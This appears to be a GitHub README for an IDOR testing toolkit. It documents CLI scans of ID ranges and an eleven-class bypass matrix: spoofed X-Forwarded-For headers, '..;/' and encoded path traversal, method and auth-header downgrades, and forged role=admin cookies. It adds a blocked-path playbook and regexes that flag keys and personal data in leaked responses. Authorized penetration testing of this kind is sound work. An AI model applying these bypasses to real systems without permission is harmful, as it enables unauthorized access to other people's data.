

<div align="center">

# 🔑 IDOR Toolkit

### Detection + bypass for Insecure Direct Object References


*A CLI-first toolkit that walks an ID range, diffs responses against your own resource, and — when a straight id fails — runs an eleven-class bypass matrix to find a way through. Ships with a web dashboard for triaging results.*

</div>

---

## 📖 Table of Contents

<table>
<tr>
<td valign="top">

- [Requirements](#-requirements)
- [Install](#-install)
- [Project Layout](#-project-layout)
- [Commands](#-commands)
- [Detection Logic](#-detection-logic)
- [Bypass Techniques](#-bypass-techniques)

</td>
<td valign="top">

- [When a Path Is Blocked](#-when-a-path-is-blocked)
- [Sensitive Data Detection](#-sensitive-data-detection)
- [Dashboard](#-dashboard)
- [Output Schema](#-output-schema)
- [Troubleshooting](#-troubleshooting)
- [Extending](#-extending)
- [Legal](#-legal)

</td>
</tr>
</table>

---

## 📋 Requirements

| Requirement | Notes |
|---|---|
| 🐍 Python | 3.9+ |
| 📦 pip | for dependencies |
| 🌐 Network access | to the target you're auditing |

---

## 📦 Install

```bash
git clone https://github.com/Kichu-10/IDOR.git #idor-toolkit
cd idor-toolkit
python3 -m venv .venv
source .venv/bin/activate        # windows: .venv\Scripts\activate
pip install -r requirements.txt
chmod +x idor.py
```

**Verify:**

```bash
./idor.py --help
```

---

## 📁 Project Layout

```
idor-toolkit/
├── idor.py                     # CLI entrypoint
├── requirements.txt
├── README.md
│
├── core/
│   ├── __init__.py
│   ├── detector.py             # response diffing + verdicts
│   ├── bypass.py               # bypass technique library
│   ├── scanner.py              # orchestration
│   └── reporter.py             # pretty-print + json
│
└── dashboard/
    ├── app.py                  # flask app
    └── templates/
        └── index.html
```

---

## 💻 Commands

`idor.py` has three subcommands: `scan`, `bypass`, `dashboard`.

### 🔍 `scan` — walk an ID range

```bash
./idor.py scan -u <url-with-{ID}> [options]
```

| Flag | Default | Meaning |
|------|---------|---------|
| `-u, --url` | required | target URL — use `{ID}` as placeholder |
| `-m, --method` | `GET` | GET / POST / PUT / PATCH / DELETE |
| `-d, --data` | — | request body, `{ID}` placeholder supported |
| `-H, --header` | repeatable | `Name: Value` |
| `-c, --cookie` | — | cookie string |
| `-a, --auth` | — | bearer token → `Authorization: Bearer <t>` |
| `--id-start` | `1` | lower bound |
| `--id-end` | `50` | upper bound |
| `--baseline-id` | `id-start` | your own resource id for diffing |
| `--bypass` | off | run every bypass on each candidate |
| `--threads` | `10` | worker threads |
| `--timeout` | `10` | per-request timeout |
| `-o, --output` | — | write JSON result |
| `-v, --verbose` | off | per-id logging |

<details>
<summary><b>📋 Examples</b></summary>

```bash
# basic — try ids 1..50, no auth
./idor.py scan -u "https://target.com/api/users/{ID}"

# authenticated, baseline against your own id
./idor.py scan -u "https://target.com/account/{ID}" \
  --baseline-id 5 --id-start 1 --id-end 200 \
  -c "session=abc123"

# POST body with id placeholder
./idor.py scan -u "https://target.com/api/orders" \
  -m POST -d "order_id={ID}" \
  -H "Content-Type: application/json" \
  -a "eyJhbGciOi..." \
  -o results.json

# scan + bypass in one pass
./idor.py scan -u "https://target.com/api/users/{ID}" \
  -c "session=abc123" --bypass -o results.json
```

</details>

### 🧨 `bypass` — single id, full bypass matrix

```bash
./idor.py bypass -u <url> --id <n> [options]
```

Same flags as `scan` minus range. Runs every bypass technique against `--id` and reports which succeeded.

```bash
./idor.py bypass -u "https://target.com/api/users/{ID}" \
  --id 42 -c "session=abc123"
```

### 📊 `dashboard` — web UI

```bash
./idor.py dashboard [--host 127.0.0.1] [--port 5000] [--results-dir ./results]
```

See [Dashboard](#-dashboard).

---

## 🧠 Detection Logic

For every `id` in the range:

1. Fetch baseline (`--baseline-id`, or `id-start`) — your own resource.
2. Fetch test id.
3. Compare:

| Verdict | Condition |
|---------|-----------|
| 🟰 `identical` | same hash, same status, similar length |
| 🔵 `similar` | same status, similarity ≥ 0.7 |
| 🔴 `distinct` | 2xx status, similarity < 0.95, length diff > 100 bytes |
| 🚫 `denied` | 401 / 403 |
| ⚪ `not_found` | 404 |
| ⚙️ `other` | anything else |

> A `distinct` verdict is an **IDOR candidate**. Candidates are then scanned for sensitive data and, if `--bypass` was set, run through the full bypass matrix.

Comparison uses `difflib.SequenceMatcher` on the first 5000 bytes of body, plus status and length deltas. Similarity ≥ 0.95 with a small length delta is treated as "same resource, different page chrome" and skipped.

---

## 🧩 Bypass Techniques

When a straight GET fails, the engine tries all eleven classes below.

### 1️⃣ Header bypass

Spoofs localhost, rewrites paths at the proxy, or overrides the method via header.

| Header | Value | Why |
|--------|-------|-----|
| `X-Forwarded-For` | `127.0.0.1` | spoof localhost IP |
| `X-Real-IP` | `127.0.0.1` | same |
| `X-Originating-IP` | `127.0.0.1` | same |
| `X-Remote-IP` | `127.0.0.1` | same |
| `X-Client-IP` | `127.0.0.1` | same |
| `X-Forwarded-Host` | `localhost` | host-based trust |
| `X-Host` | `127.0.0.1` | same |
| `X-Forwarded-Server` | `127.0.0.1` | same |
| `X-Original-URL` | `/` | proxy path rewrite |
| `X-Rewrite-URL` | `/` | same |
| `X-HTTP-Method-Override` | `GET` | verb override |
| `X-Method-Override` | `GET` | same |

### 2️⃣ Path bypass

Routing and auth middleware normalize paths differently; the mismatch is the exploit.

| Technique | Example |
|-----------|---------|
| trailing slash | `/api/users/42/` |
| traversal | `/api/users/../users/42` |
| semicolon traversal | `/api/users/..;/users/42` |
| url-encoded traversal | `/api/users/%2e%2e/users/42` |
| mixed encoding | `/api/users/.%2e/users/42` |
| case flip | `/api/users/42` → `/API/USERS/42` |
| double encoding | `%2f` → `%252f` |
| null byte | `/api/users/42%00` |
| json-ish suffix | `/api/users/42;.json` or `/api/users/42.json` |
| double slash | `/api//users/42` |

### 3️⃣ ID mutation

| Technique | Example |
|-----------|---------|
| arithmetic | `42` → `43`, `41`, `84` |
| sentinel | `42` → `0`, `-1` |
| append | `42` → `42'`, `42"`, `42/`, `42 `, `42%00`, `42?` |
| padding | `42` → `042` |
| multiply by 10 | `42` → `420` |
| UUID variants | any UUID → `00000000-0000-0000-0000-000000000000` |

### 4️⃣ Query param injection

Appends `debug=1`, `admin=true`, `role=admin`, `user_id=1`, `access=all`, `internal=1`, `test=1`.

### 5️⃣ Method swap

GET / POST / PUT / PATCH / DELETE / HEAD / OPTIONS — every verb other than the original.

### 6️⃣ Content-type swap

`application/json`, `application/xml`, `text/xml`, `application/x-www-form-urlencoded`.

### 7️⃣ Auth strip / downgrade

| Technique | Effect |
|-----------|--------|
| strip | remove `Authorization` entirely |
| Basic | replace `Bearer <tok>` with `Basic <tok>` |
| empty | set `Authorization: ""` |

### 8️⃣ Cookie mutation

| Technique | Effect |
|-----------|--------|
| strip-* | remove any cookie whose name contains `auth`, `token`, `session`, `jwt` |
| role-admin | append `role=admin; is_admin=true` |
| cookie-*=1 | reset any id/user cookie to `1` |

> Every attempt is compared against the baseline. A 2xx status with body similarity < 0.95 counts as a **successful bypass**.

---

## 🚧 When a Path Is Blocked

If a user can't reach the path they need — 403, 404, or an auth wall — walk this order:



1. **Header spoof** — `X-Forwarded-For: 127.0.0.1` is the single most-effective bypass in legacy apps. Add `X-Original-URL` if there's a reverse proxy in front.
2. **Path mutation** — trailing slash, `..;/`, `%2e%2e/`, `%00` suffix. Auth middleware and router normalize differently; the mismatch is the exploit.
3. **Method swap** — many controllers only guard `GET`. Try `HEAD`, `OPTIONS`, `POST` on the same path.
4. **Content-type swap** — JSON parsers often skip middleware that form bodies go through.
5. **Auth strip / downgrade** — empty header or `Basic` instead of `Bearer` can flip the route into an "unauthenticated public" handler.
6. **Cookie mutation** — set `role=admin`, strip the session, or reset the id-cookie.
7. **Query injection** — `?admin=true` still flips some older frameworks.
8. **ID mutation** — if the numeric id was blocked but the path works for another id, try neighbours, sentinels, and UUID variants.

Run them all at once with:

```bash
./idor.py bypass -u "https://target.com/api/users/{ID}" \
  --id 42 -c "session=abc123" -o bypass42.json
```

The output tells you which technique worked — technique label, status, verdict, and any sensitive markers in the response.

---

## 🔎 Sensitive Data Detection

When a bypass succeeds, the response body is scanned for markers:

| Key | Pattern |
|-----|---------|
| 📧 `email` | `[\w.+-]+@[\w-]+\.[\w.-]+` |
| 📱 `phone` | `\+?\d[\d\s().-]{7,}\d` |
| 🪪 `ssn` | `\d{3}-\d{2}-\d{4}` |
| 💳 `credit_card` | 13–16 digit runs |
| 🔑 `api_key` | `api_key` / `token` / `secret` followed by ≥16 alnum chars |
| 🎫 `jwt` | `eyJ...` JWT triple |
| ☁️ `aws_key` | `AKIA[0-9A-Z]{16}` |

> Hits are counted per class and surfaced in JSON + dashboard.

---

## 📊 Dashboard

```bash
./idor.py dashboard --port 5000 --results-dir ./results
```

Open `http://127.0.0.1:5000`.

**Features**

- 📁 sidebar lists every `.json` result file in `results-dir`
- 🏷️ per-file metadata: target, candidate count, bypass-success count
- 📋 click a file → table shows candidate ids, statuses, lengths, similarity, sensitive-data hits, bypass count
- 🔽 bypass findings expand under each candidate
- 🖱️ drag-and-drop JSON uploads into the results dir
- 🔄 auto-refresh list when uploads complete

**Generating files the dashboard can read:**

```bash
mkdir -p results

./idor.py scan -u "https://target.com/api/users/{ID}" \
  -c "$COOKIE" --bypass -o results/scan1.json

./idor.py bypass -u "https://target.com/api/users/{ID}" \
  --id 42 -c "$COOKIE" -o results/bypass42.json
```

---

## 🧾 Output Schema

<details>
<summary><b><code>scan</code> result</b></summary>

```json
{
  "target": "https://target.com/api/users/{ID}",
  "method": "GET",
  "baseline_id": 5,
  "baseline_status": 200,
  "scanned": 49,
  "idor_candidates": [
    {
      "id": 7,
      "url": "https://target.com/api/users/7",
      "status": 200,
      "length": 4123,
      "comparison": {
        "verdict": "distinct",
        "status": 200,
        "length": 4123,
        "length_diff": 3882,
        "similarity": 0.081,
        "hash": "ab12cd34ef56gh78"
      },
      "sensitive": { "email": 3, "jwt": 1 },
      "bypass_attempts": [ ... ],
      "bypass_successes": [ ... ]
    }
  ]
}
```

</details>

<details>
<summary><b><code>bypass</code> result</b></summary>

```json
{
  "target": "https://target.com/api/users/{ID}",
  "method": "GET",
  "target_id": 42,
  "baseline_id": 5,
  "attempts": [
    {
      "technique": "header X-Forwarded-For: 127.0.0.1",
      "url": "https://target.com/api/users/42",
      "method": "GET",
      "status": 200,
      "length": 4210,
      "similarity": 0.09,
      "verdict": "distinct",
      "success": true,
      "sensitive": { "email": 2 }
    }
  ],
  "successes": [ ... ]
}
```

</details>

---

## 🐛 Troubleshooting

| Symptom | Cause | Fix |
|---------|-------|-----|
| `ModuleNotFoundError: core` | running from wrong cwd | run from repo root |
| all candidates `denied` | cookie / token wrong or expired | re-auth, pass `-c` / `-a` again |
| all candidates `identical` | baseline is the wrong resource | pick a different `--baseline-id` |
| many `not_found` | id range doesn't match server ids | widen `--id-start/--id-end` or try UUIDs |
| scan hangs on one id | slow endpoint or long timeout | lower `--timeout`, raise `--threads` |
| `SSL: CERTIFICATE_VERIFY_FAILED` | self-signed cert | `requests` is set to `verify=False` — check your `requests` version |
| dashboard returns empty | `--results-dir` wrong | pass the same path you used for `-o` |

---

## 🧱 Extending

**New bypass technique**
Add a static method to `BypassEngine` in `core/bypass.py`, then call it from `Scanner._run_bypass_matrix` in `core/scanner.py`. Each attempt feeds `add(label, url, method, body, headers, cookie)`.

**New sensitive-data pattern**
Extend `find_sensitive_patterns` in `core/detector.py`. Regex only — it runs per response, keep it cheap.

**New dashboard view**
Add a route in `dashboard/app.py`, a template in `dashboard/templates/`, and a JS branch in `index.html`'s `render()`.

---

## 📜 Legal

> **Intended for authorized security testing only.** Only run this against systems you own or have explicit written permission to test. Unauthorized access to systems is illegal in nearly every jurisdiction. The author assumes no liability for misuse.

---

<div align="center">

**Test responsibly. Get permission first.** 🔒

</div>
